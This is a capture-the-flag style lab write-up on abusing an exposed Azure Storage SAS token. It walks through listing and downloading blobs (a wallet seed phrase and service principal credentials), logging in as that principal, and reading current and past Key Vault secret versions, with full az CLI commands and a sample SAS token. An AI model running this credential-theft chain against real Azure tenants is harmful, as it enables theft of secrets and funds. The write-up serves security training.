
This room focuses on exploiting misconfigured Azure Storage and Azure Key Vault permissions.
The scenario begins with an exposed Azure Storage SAS (Shared Access Signature) token. Using that token, we enumerate storage containers, retrieve sensitive files, authenticate as an Azure Service Principal, and finally access Azure Key Vault to recover secrets—including an older version of a rotated secret.
az)The application exposed an Azure Storage account.
https://cryptocabanaf5scjagc.z13.web.core.windows.net/
https://cryptocabanaf5scjagc.z13.web.core.windows.net/The objective was to determine how much trust the kiosk had and whether sensitive storage resources were accessible.

The room provides an Azure Storage Account name and a Shared Access Signature (SAS).
ACCOUNT='cryptocabanaf5scjagc' SAS='sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D'
ACCOUNT='cryptocabanaf5scjagc'
SAS='sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D'A Shared Access Signature (SAS) is a signed URL token that grants temporary access to Azure Storage resources without exposing the storage account key.
The permissions contained inside the token determine what actions are allowed.
In this room the token allowed:
Although these permissions appear limited, they were sufficient to access sensitive data.

Using Azure CLI:
az storage container list \ --account-name "$ACCOUNT" \ --sas-token "$SAS" \ --query '[].name' \ --output table
az storage container list \
--account-name "$ACCOUNT" \
--sas-token "$SAS" \
--query '[].name' \
--output tableThis command lists every container inside the Azure Storage Account.
One of the interesting containers discovered was:
vault
vaultThe name strongly suggested sensitive information was stored there.

Next, enumerate files inside the vault container.
az storage blob list \
--account-name "$ACCOUNT" \
--container-name 'vault' \
--sas-token "$SAS" \
--query '[].{Name:name,Size:properties.contentLength,Modified:properties.lastModified}' \
--output tableaz storage blob list \
--account-name "$ACCOUNT" \
--container-name 'vault' \
--sas-token "$SAS" \
--query '[].{Name:name,Size:properties.contentLength,Modified:properties.lastModified}' \
--output tableBlob Storage works similarly to folders containing files.
Listing blobs reveals filenames, timestamps, and sizes that may indicate valuable information.
Interesting files included:
seed_phrase.txt backup-service-account.json
seed_phrase.txt
backup-service-account.jsonDownload the wallet seed phrase.
az storage blob download \ --account-name "$ACCOUNT" \ --container-name 'vault' \ --name 'seed_phrase.txt' \ --sas-token "$SAS" \ --file seed_phrase.txt \ --output none
az storage blob download \
--account-name "$ACCOUNT" \
--container-name 'vault' \
--name 'seed_phrase.txt' \
--sas-token "$SAS" \
--file seed_phrase.txt \
--output noneRead it:
cat seed_phrase.txt
cat seed_phrase.txtThe file contained the cryptocurrency wallet recovery phrase.
This demonstrates how exposing storage containers can directly leak confidential information.

The next file was much more valuable.
az storage blob download \ --account-name "$ACCOUNT" \ --container-name 'vault' \ --name 'backup-service-account.json' \ --sas-token "$SAS" \ --file backup-service-account.json \ --output none
az storage blob download \
--account-name "$ACCOUNT" \
--container-name 'vault' \
--name 'backup-service-account.json' \
--sas-token "$SAS" \
--file backup-service-account.json \
--output noneView the contents:
jq . backup-service-account.json
jq . backup-service-account.jsonThe JSON file contained Azure authentication details.
Important fields:
These credentials belonged to an Azure Service Principal.

Instead of copying values manually, extract them using jq.
CLIENT_ID=$(jq -r '.client_id' backup-service-account.json) CLIENT_SECRET=$(jq -r '.client_secret' backup-service-account.json) TENANT_ID=$(jq -r '.tenant_id' backup-service-account.json) VAULT_NAME=$(jq -r '.key_vault_name' backup-service-account.json)
CLIENT_ID=$(jq -r '.client_id' backup-service-account.json)
CLIENT_SECRET=$(jq -r '.client_secret' backup-service-account.json)
TENANT_ID=$(jq -r '.tenant_id' backup-service-account.json)
VAULT_NAME=$(jq -r '.key_vault_name' backup-service-account.json)This stores the values as shell variables for later use.
Login using the Service Principal.
az login \ --service-principal \ --username "$CLIENT_ID" \ --password "$CLIENT_SECRET" \ --tenant "$TENANT_ID" \ --allow-no-subscriptions \ --output none
az login \
--service-principal \
--username "$CLIENT_ID" \
--password "$CLIENT_SECRET" \
--tenant "$TENANT_ID" \
--allow-no-subscriptions \
--output noneA Service Principal is a non-human identity used by applications and automation.
Unlike normal users, it authenticates using:
Successful authentication means we now inherit whatever Azure permissions were assigned to that identity.
az account show \ --query user \ --output json
az account show \
--query user \
--output jsonExpected output indicates:
servicePrincipal
servicePrincipalThis confirms Azure accepted the credentials.

Since the service account included a Key Vault name, enumerate secrets.
az keyvault secret list \
--vault-name "$VAULT_NAME" \
--query '[].{Name:name,Enabled:attributes.enabled,Updated:attributes.updated}' \
--output tableaz keyvault secret list \
--vault-name "$VAULT_NAME" \
--query '[].{Name:name,Enabled:attributes.enabled,Updated:attributes.updated}' \
--output tableReturned secrets:
key-shard-1 key-shard-2 key-shard-3 master-key
key-shard-1
key-shard-2
key-shard-3
master-keyThis reveals that the service principal had permission to enumerate secrets inside Azure Key Vault.

Retrieve each secret individually.
az keyvault secret show \ --vault-name "$VAULT_NAME" \ --name 'key-shard-1' \ --query value \ --output tsv
az keyvault secret show \
--vault-name "$VAULT_NAME" \
--name 'key-shard-1' \
--query value \
--output tsvRepeat for:
key-shard-2
key-shard-2key-shard-3
key-shard-3Each command returns the plaintext secret value.
The room hint mentions that something looked different "five minutes before."
Azure Key Vault automatically versions secrets whenever they are updated.
List every version of key-shard-2.
az keyvault secret list-versions \
--vault-name "$VAULT_NAME" \
--name 'key-shard-2' \
--query '[].{Version:id,Created:attributes.created,Updated:attributes.updated,Enabled:attributes.enabled}' \
--output tableaz keyvault secret list-versions \
--vault-name "$VAULT_NAME" \
--name 'key-shard-2' \
--query '[].{Version:id,Created:attributes.created,Updated:attributes.updated,Enabled:attributes.enabled}' \
--output tableMultiple versions were returned.
Retrieve the earlier version.
az keyvault secret show \ --vault-name "$VAULT_NAME" \ --name 'key-shard-2' \ --version '3d6492d2c6f74123bc754a9ded22b2a0' \ --query value \ --output tsv
az keyvault secret show \
--vault-name "$VAULT_NAME" \
--name 'key-shard-2' \
--version '3d6492d2c6f74123bc754a9ded22b2a0' \
--query value \
--output tsvThis successfully revealed the older secret value.
The room demonstrates that rotating a secret does not destroy previous versions unless they are explicitly removed or purged. Any identity with permission to access secret versions can still retrieve historical values.



The storage account exposed a SAS token that granted read and list permissions.
Impact
The storage container contained:
Both should never be publicly accessible.
The service account had permission to access Azure Key Vault secrets.
This violated the principle of least privilege.
Old versions of secrets remained accessible.
Even after rotating a secret, previous versions continued to expose sensitive information.
| Service | Purpose |
|---|---|
| Azure Storage Account | Stores blobs and containers |
| Blob Storage | Holds downloadable files |
| SAS Token | Grants delegated access to storage resources |
| Service Principal | Application identity used for authentication |
| Azure Key Vault | Secure storage for secrets, keys, and certificates |
| Secret Versioning | Maintains historical versions of secrets |
List and Read access).# List containers az storage container list \ --account-name "$ACCOUNT" \ --sas-token "$SAS" # List blobs az storage blob list \ --account-name "$ACCOUNT" \ --container-name vault \ --sas-token "$SAS" # Download blob az storage blob download # Read downloaded file cat seed_phrase.txt # Parse JSON jq . # Azure login az login --service-principal # Verify identity az account show # List Key Vault secrets az keyvault secret list # Retrieve secret az keyvault secret show # List secret versions az keyvault secret list-versions # Retrieve previous version az keyvault secret show --version <VERSION_ID>
# List containers
az storage container list \
--account-name "$ACCOUNT" \
--sas-token "$SAS"
# List blobs
az storage blob list \
--account-name "$ACCOUNT" \
--container-name vault \
--sas-token "$SAS"
# Download blob
az storage blob download
# Read downloaded file
cat seed_phrase.txt
# Parse JSON
jq .
# Azure login
az login --service-principal
# Verify identity
az account show
# List Key Vault secrets
az keyvault secret list
# Retrieve secret
az keyvault secret show
# List secret versions
az keyvault secret list-versions
# Retrieve previous version
az keyvault secret show --version <VERSION_ID>This room demonstrates how a seemingly low-risk exposure—an Azure Storage SAS token with read/list permissions—can cascade into a full compromise of sensitive cloud resources. By enumerating Blob Storage, downloading exposed service principal credentials, authenticating to Azure, and abusing overly permissive Key Vault access, an attacker can retrieve both current and historical secrets. The exercise reinforces the importance of least-privilege access, secure credential storage, short-lived SAS tokens, and proper management of Azure Key Vault secret versions as core cloud security best practices.